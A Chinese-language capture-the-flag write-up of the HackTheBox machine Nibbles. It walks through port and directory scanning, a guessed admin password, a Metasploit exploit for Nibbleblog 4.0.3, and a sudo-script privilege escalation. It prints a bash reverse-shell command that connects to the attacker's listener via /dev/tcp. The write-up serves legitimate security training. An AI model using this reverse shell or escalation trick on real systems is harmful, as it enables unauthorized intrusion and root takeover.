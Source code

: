 # Nibbles

- **Nibbles是hackthebox中的一台简单靶机**

- nmap查看靶机端口以及漏洞

![image-20211013092148207](http://cdn.mxrblog.cn/image-20211013092148207.png)

- 使用nmap发现靶机开启了22号和80端口，开启了ssh服务和http服务，但通过nmap未发现什么漏洞
- 使用web浏览器打开靶机80端口

![image-20211013092010736](http://cdn.mxrblog.cn/image-20211013092010736.png)

- 只有一句Hello world! 没什么其他有用的东西
- 使用dirsearch和gobuster查看网页目录，发现没什么有价值的东西

![image-20211013093528608](http://cdn.mxrblog.cn/image-20211013093528608.png)

- 再次回到网页，查看网页的html，这次有了提示——一行注释：提醒我们nibbleblog这个子目录可能存在什么东西

![image-20211013093427695](http://cdn.mxrblog.cn/image-20211013093427695.png)

- 查看http://10.10.10.75/nibbleblog/

![image-20211013093849097](http://cdn.mxrblog.cn/image-20211013093849097.png)

- 再次使用dirsearch扫描

![image-20211013122037090](http://cdn.mxrblog.cn/image-20211013122037090.png)

- 查看readme文件内容

![image-20211013122137510](http://cdn.mxrblog.cn/image-20211013122137510.png)

- 给出了一个4.0.3版本，上网搜索nibbleblog知道这是一个博客引擎，searchsploit查看一下是否存在漏洞

![image-20211013122314599](http://cdn.mxrblog.cn/image-20211013122314599.png)

- 通过searchsploit搜索得知我们可以使用msf来完成渗透

![image-20211013122743444](http://cdn.mxrblog.cn/image-20211013122743444.png)

- 密码为nibbles  （**猜测出来的**）

![image-20211013154254549](http://cdn.mxrblog.cn/image-20211013154254549.png)

- 使用python获取交互式界面

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

- 获得user.txt

![image-20211013154832647](http://cdn.mxrblog.cn/image-20211013154832647.png)

- 查看是否有可以使用的root权限命令

![image-20211013155458111](http://cdn.mxrblog.cn/image-20211013155458111.png)

- 将反弹shell命令写入monitor.sh脚本中，kali打开nc监听

```
echo "#! /bin/bash" > monitor.sh
echo "/bin/bash -i >& /dev/tcp/10.10.14.23/4444 0>&1" > monitor.sh
//echo "su" >> monitor.sh  这样执行后无需反弹shell直接能获取root权限 
```

![image-20211013162727965](http://cdn.mxrblog.cn/image-20211013162727965.png)

![image-20211013162851253](http://cdn.mxrblog.cn/image-20211013162851253.png)



